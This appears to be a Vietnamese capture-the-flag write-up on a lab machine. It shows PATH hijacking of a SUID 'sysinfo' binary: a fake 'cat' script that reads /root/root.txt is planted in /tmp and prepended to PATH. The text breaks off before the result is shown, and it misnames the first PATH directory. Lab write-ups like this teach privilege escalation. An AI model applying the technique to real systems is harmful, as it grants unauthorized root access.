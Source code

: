 ### /bin/sysinfo
Các lệnh mà nó gọi để lấy thông tin hệ thống.

![image](https://hackmd.io/_uploads/S1_bo5MqR.png)

Nhìn vào phần `CPU Info` thấy chương trình dùng `cat /proc/cpuinfo` thay vì
`/bin/cat /proc/cpuinfo` . Thư mục `/bin` chứa nhị phân `cat` được bao gồm trong biến môi trường PATH của người dùng. Biến PATH được hệ thống sử dụng để xác định các thư mục cần tìm kiếm để xác định vị trí tệp nhị phân.

```
echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
theseus@magic:/tmp$ 
```

Hệ điều hành lần lượt tìm kiếm các thư mục, bắt đầu từ thư mục đầu tiên. Trong trường hợp của chúng ta, thư mục đầu tiên mà HĐH sẽ tìm kiếm là `/usr/bin/local` . Nếu tập tin thực thi không được định vị ở đó, nó sẽ tiếp tục tìm kiếm trong thư mục tiếp theo, v.v. Hành vi này có thể bị lợi dụng
bằng cách sửa đổi biến PATH để chứa một thư mục mà người dùng hiện tại của chúng tôi có thể ghi được. Người dùng được phép sửa đổi biến và thêm một thư mục. 

### cat
Tạo 1 file tên `cat`, content của nó do chúng ta quyết định, gán nó vào PATH variable. Khi binary có SUID được chạy (sysinfo), thì `cat` cũng được chạy với quyền root (do SUID này do Root gắn)

Tạo một file tên cat, content của nó dùng để đọc flag

```
echo "strings /root/root.txt" > cat
theseus@magic:~$ cat cat
cat cat
strings /root/root.txt
```
Sau đó kéo về /tmp/ của machine, Command leo quyền như sau:
```
theseus@magic:~$ mv cat /tmp
mv cat /tmp
theseus@magic:~$ cd /tmp
cd /tmp
theseus@magic:/tmp$ ls
ls
cat
theseus@magic:/tmp$ chmod 777 cat
chmod 777 cat
theseus@magic:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
theseus@magic:/tmp$ sysinfo
```
## Post-Exploit
Thông qua sysinfo thì được do nó có SUID, khi Path variable đã được gán, command chỉ là sysinfo, và kết quả:
